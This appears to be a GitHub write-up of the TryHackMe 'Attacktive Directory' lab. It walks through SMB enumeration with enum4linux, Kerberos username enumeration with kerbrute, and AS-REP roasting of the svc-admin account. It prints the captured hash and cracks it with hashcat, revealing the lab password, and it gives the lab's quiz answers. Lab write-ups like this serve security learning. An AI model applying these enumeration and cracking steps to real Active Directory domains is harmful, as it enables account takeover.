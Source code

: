 ```$ sudo openvpn /home/kali/Desktop/coedoverheated41.ovpn```

**Questions:**
> **What tool will allow us to enumerate port 139/445?**  `enum4linux`
>> because Ports 139 and 445 are used by SMB. To enumerate SMB a great tool to use is enum4linux.

> **What is the NetBIOS-Domain Name of the machine?**  `THM-AD`
>>By using **enum4linux** We found the NetBIOS-Domain Name mentioned many times

> **What invalid TLD do people commonly use for their Active Directory Domain? (TLD means top level domain)**  `.local`
>> In our Nmap results, we spotted an Active Directory (AD) Domain named "spookysec.local" on port 3389.

## Task 4 (Enumerating Users via Kerberos)
In our exploration, we observed numerous active ports, one of which stood out as `Kerberos`, a crucial authentication service within Active Directory. Leveraging [Kerbrute](https://github.com/ropnop/kerbrute/releases) , we can conduct brute force attempts to discover users, passwords, and even attempt password spraying.

However, for this particular machine, we'll utilize a customized [User List](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) and [Password List](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt) to expedite the enumeration process and password hash cracking. It's important to note that brute forcing credentials may **NOT** be advisable due to the risk of triggering account lockout policies, which are beyond our ability to enumerate on the domain controller. As such, we'll proceed with caution, ensuring our approach aligns with the limitations of the challenge environment.

By running this command
```./kerbrute_linux_amd64 usernum -d spookysec.local --dc 10.10.76.108 ~/attactive_directory/usernames.txt ```

![2023-07-26 12_06_06-Practical Ethical Hacking ctb - F__PROGRAM FILES(DONT TOUCH)_CherryTree - Cherry](https://github.com/zeyadtarekXx/Attractive-Directory-Writeup/assets/61972622/691b6a72-a2df-4386-aa08-5b62db79af5d)

There are some interesting accounts here. But surprisingly we found that svc-admin has no pre-auth (TGT) that must be required to get the TGC
Not only that but also it provides us with the **Kerberos hash** 

```$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:408ee4a3e91ec877b931d35c56364c77$63dc9e093d6f3ddfd0074033786ed4d4d6e5f3e9f27be7f98866c0c91c4271c6c8a721eafa9e343a2b9638da64fe71d7563c31e51e6aac0686ba9025ab8ff2d41b8b24f38888cd803c70568744a12daa95cca16b73fa6bc5b20f1fb697b29fd1fe39fa0553ae07ad7e6e2f5232e306ee2abf3ee2ba8ebc704bc96f0d60cd245f96f4caa7c20c3a673fba2b25a384593b01e334560348a146d9168e1fc594b8c59e11382193bd2b3f1c421f9d5fdc61167c8f3bfa18d60fc6fca79923c16b707927719330363b593c28ccc0c7dd2c5e7696b43d45a4bc016341f773805c53f51d2b6ae4a0fa3c3280a18a9d53d9b5fd08337c```

By Looking-up the hash head in **hashcat help** we knew that the type of the hash is ```18200 kerberos 5, etype 23, AS-REP```
![2023-07-26 12_17_35-Window](https://github.com/zeyadtarekXx/Attractive-Directory-Writeup/assets/61972622/98bf732f-e24f-45a2-b2e0-ca91c6110a64)

***Cracking The Hash***

By using **HashCat** we can try to Decrypt the hash by using the [Password List](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt) provided 

By using this command ``` hashcat -m 18200 TGT.txt pass.txt -o out.txt```
![2023-07-26 12_21_01-Window](https://github.com/zeyadtarekXx/Attractive-Directory-Writeup/assets/61972622/3236811c-cfad-4513-9747-6e6697235f7c)

**THE OUTPUT**
![2023-07-26 12_22_57-Window](https://github.com/zeyadtarekXx/Attractive-Directory-Writeup/assets/61972622/4783e424-9658-4b24-9f80-5d474200ef1e)

***SO THE PASSWORD AFTER CRACKING IS : management2005***

**Questions:**
> What command within Kerbrute will allow us to enumerate valid usernames?  `userenum`

```